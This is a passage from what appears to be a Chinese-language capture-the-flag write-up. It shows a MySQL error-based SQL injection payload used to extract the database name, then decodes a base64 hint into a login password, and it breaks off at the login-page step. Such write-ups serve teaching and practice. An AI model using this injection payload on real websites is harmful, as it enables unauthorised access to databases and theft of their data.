   ```mysql
  1' AND (SELECT * FROM(SELECT COUNT(*),CONCAT(database(),FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.TABLES GROUP BY x)a) AND 'a'='a
  ```

  ![break_3_exp_119](img/break_3_exp_119.png)

- 所以利用报错注入可以一步步得到 Flag。

一、破解账号和密码

根据提示——题目线索：检查一下 `MTJAYWE0Li8oOUViOUFEKTApNw==` 看看能发现什么吧~

- 看到熟悉的 `=` ，肯定和 `base64` 加密有关，推测用户名为 `check` , `MTJAYWE0Li8oOUViOUFEKTApNw==` 是由原始密码经过 `base64` 加密变换后得到的密文。
- 经过尝试，发现使用 `base64` 解密，得到 `12@aa4./(9Eb9AD)0)7` ，看起来很像密码，在网站试一下果然是正确的。

在脚本中 `base64` 解密函数

```python
def b64decode(str):   
    decode = base64.b64decode(str)
    return decode
```

二、拿 Flag

检查登录页：
